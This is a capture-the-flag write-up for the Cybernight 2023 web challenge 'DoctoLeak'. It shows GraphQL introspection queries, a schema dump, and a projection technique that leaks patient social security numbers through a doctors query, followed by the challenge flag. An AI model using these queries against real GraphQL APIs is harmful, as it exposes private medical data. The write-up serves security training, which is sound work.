

# Cybernight 2023 - DoctoLeak
---

## Category

> Web

## Description

> Je dois trouver le numéro de sécurité sociale du Patient 0 !
>
> C'est une question de vie ou de mort...

## Link

[DoctoLeak](http://doctoleak2.chall.malicecyber.com/)

## Difficulty

**MEDIUM** - 100 points

- Author: **Sysdream**
---



## Write up

The first interesting thing I found looking to the website was the link as the bottom: [Check our API](https://doctoleak2.chall.malicecyber.com/graphql)

Which leads to a **/graphql** page. At this point, I was sure it was all about exploiting some confidentiality issue in a graphql query.

Using the book from [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql) I was able to run some Introspection inside Burpsuite repeater.

I recover the schema using query like ``?query={__schema{types{name,fields{name}}}}``:

```json
{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"doctor"},{"name":"doctors"},{"name":"patients"},{"name":"patient"},{"name":"allrendezvous"},{"name":"rendezvous"}]},{"name":"String","fields":null},{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]},{"name":"ID","fields":null},{"name":"Patient","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"doctor"},{"name":"ssn"}]},{"name":"Rendezvous","fields":[{"name":"id"},{"name":"date"},{"name":"confirmed"}]},{"name":"Boolean","fields":null},{"name":"JSON","fields":null},{"name":"Mutation","fields":[{"name":"signIn"}]},{"name":"Token","fields":[{"name":"token"}]},{"name":"__Schema","fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null},{"name":"CacheControlScope","fields":null},{"name":"Upload","fields":null},{"name":"Int","fields":null}]}}}
```
I could understand that the database stores some doctors, patients, rendezvous, etc.

I tried to directly query the patient with id:0 with ``?query={patient(id:0){ssn}}`` but it returns an **UNAUTHORIZED** error, because we were not authenticated.

A mutation signIn exists, avec Doctors have a password field, so maybe we could manage to recover a password? I did not succeed in this way.

However, if we take a closer look at the **Doctor** type:

```json
{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]}
```

A doctor possessed id, a firstName, but most importantly: **a list of patients**

Through a Doctor query, we can possibly manage to search for patients ssn.

Happily (or not?) this complete request was availible on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#extract-data-using-projections), using a **projection** attack.

We use an option inside a list of doctors, to search for **patients.ssn**:



Here is our first leak! I could not manage to attach the id of the patient with the ssn, it returned the error ``Cannot return null for non-nullable field Patient.id``

However, our previous request contains that data at the bottom:

```json
{"firstName":"Admin","lastName":"Admin","id":"634d5b00dae927003e214578","patients":[{"ssn":"b16cff8b-4a5a-41c8-8545-d9880fd7aae5"}]
```

The ssn was the one we were looking for.


:triangular_flag_on_post: `MALICE{b16cff8b-4a5a-41c8-8545-d9880fd7aae5}`

